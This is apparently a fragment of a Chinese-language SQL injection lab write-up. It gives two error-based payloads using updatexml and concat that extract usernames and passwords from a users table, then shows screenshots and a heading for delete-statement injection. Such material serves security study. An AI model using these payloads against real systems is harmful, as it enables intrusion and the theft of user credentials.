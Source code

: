 ```
字段内容
1' and updatexml(1,concat(0x7e,(select group_concat(username,": ",password) from users),0x7e),1) or'
1' and updatexml(1,concat(0x7e,substr((select group_concat(username,": ",password) from users),32),0x7e),1) or'
```

![image-20220206212343188](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202119002.png)

#### **datele注入**

![image-20220206212501799](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202119273.png)

![image-20220206212553298](https://raw.githubusercontent.com/aisibuhuipao/img/main/202202202119879.png)
